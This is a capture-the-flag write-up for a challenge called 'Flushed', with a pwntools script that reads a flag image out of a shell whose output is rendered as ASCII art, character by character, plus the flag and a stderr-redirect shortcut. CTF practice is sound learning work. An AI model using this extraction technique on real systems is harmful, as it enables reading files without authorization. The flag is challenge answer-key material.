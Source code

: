 # Flushed

We get a shell, and get the output in large ascii text. There's a PNG of the flag. Here's my script (stupid probably). I got 1/3 of the image and guessed the rest lol

```python
from pwn import *
host = ("jh2i.com", 50015)

import string
mapc = {}

r = remote(*host)

def runCmd(cmd):
    r.clean()
    r.sendline(cmd)
    return r.clean(timeout=0.3).split(b"\r\n")[2:8]


for c in string.printable:
    mapc[c] = runCmd(f"echo '{c}'")

def lookup(val):
    for k, v in mapc.items():
        if v == val:
            return k


def readOutput(cmd):
    template = "expr substr $({}) {} 1"
    output = ""
    pos = 1
    for c in range(1, 9293):
        out = runCmd(template.format(cmd, c))
        char = lookup(out)
        print(char, end='')
        output += char
    return output

print(readOutput("base64 flag.png -w0"))
```
#### Flag:flag{flushed_down_the_toilet_but_rescued_again}
<hr>

### Tony's challenge afterthoughts:


OH MY GOD I COULD HAVE CHEESED IT

ONLY STDOUT IS ASCII-ARTED

SO 

`base64 -w0 flag.png 1>&2`

FUCKING YEAH DOES IT REEEEEEEEEEEEEEEEEEEEEEEEEE
